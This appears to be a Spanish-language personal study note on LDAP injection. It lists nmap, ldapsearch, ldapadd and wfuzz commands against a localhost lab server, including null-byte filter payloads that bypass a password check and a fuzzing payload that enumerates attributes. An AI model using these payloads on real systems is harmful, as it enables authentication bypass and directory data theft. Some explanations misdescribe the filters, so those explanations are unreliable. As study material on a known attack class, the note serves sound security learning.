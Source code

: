 
____

- Tags: 

___
# Definición 

La **inyección LDAP** es una técnica utilizada para aprovechar las vulnerabilidades en sistemas [[LDAP]] (Protocolo Ligero de Acceso a Directorios) con el fin de obtener información confidencial o realizar acciones no autorizadas. Aquí se presentan varios comandos útiles para la enumeración y exploración de un servidor [[LDAP]]:


____
# Enumeración de Servidor LDAP


```bash
nmap --script ldap* -p 389 ip
```

Este comando lanza todos los scripts de [[Nmap|nmap]] relacionados con [[LDAP]] a una [[Dirección IP|IP]] específica para enumerar diferentes aspectos, como el namming context.


```bash
ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=admin'
```

Realiza una búsqueda en un servidor [[LDAP]] local autenticándose como el usuario 'cn=admin,dc=example,dc=org' con la contraseña 'admin' y buscando una entrada con el atributo 'cn' igual a 'admin' en la base de búsqueda 'dc=example,dc=org'.

```bash
ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=admin)(description=LDAP *))'
```

Realiza una búsqueda en un servidor [[LDAP]] local autenticándose como el usuario 'cn=admin,dc=example,dc=org' con la contraseña 'admin' y busca todas las entradas que cumplan con la condición de tener el atributo 'cn' igual a 'admin' y el atributo 'description' que comience con 'LDAP'.

```bash
ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(|(cn=admin)(description=LDAP *))'
```

Realiza una búsqueda en un servidor [[LDAP]] local autenticándose como el usuario 'cn=admin,dc=example,dc=org' con la contraseña 'admin' y busca todas las entradas que cumplan con la condición de tener el atributo 'cn' igual a 'admin' o el atributo 'description' que comience con 'LDAP'.

```bash
ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=admin))%00)(userPassword=*))'
```

Este comando verifica únicamente si el usuario es "admin", ya que al colocar "))%00" se comentan todas las verificaciones posteriores, quedando solo la verificación del nombre "admin".

```bash
ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=a*)(description=*))'
```

Este comando busca en el servidor [[LDAP]] todas las entradas que cumplan las siguientes condiciones: el atributo cn comienza con a o el atributo description es cualquier valor.

```bash
ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f archivo.ldif
```

Este comando se utiliza para agregar datos al servidor [[LDAP]] ubicado en localhost, utilizando la cuenta de administrador con nombre 'admin' y la contraseña 'admin', y tomando la información de un archivo 'archivo.ldif'.

```bash
wfuzz -c -w /usr/share/seclist/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=*)(FUZZ=*))%00&password=*&login=1&submit=Submit' ldap://localhost:8888
```

Este comando enumera todos los atributos disponibles en el servidor [[LDAP]] especificado.


Estos comandos son fundamentales para comprender la estructura y la seguridad de un servidor [[LDAP]] y pueden ser utilizados tanto para propósitos de auditoría como para identificar posibles vulnerabilidades. 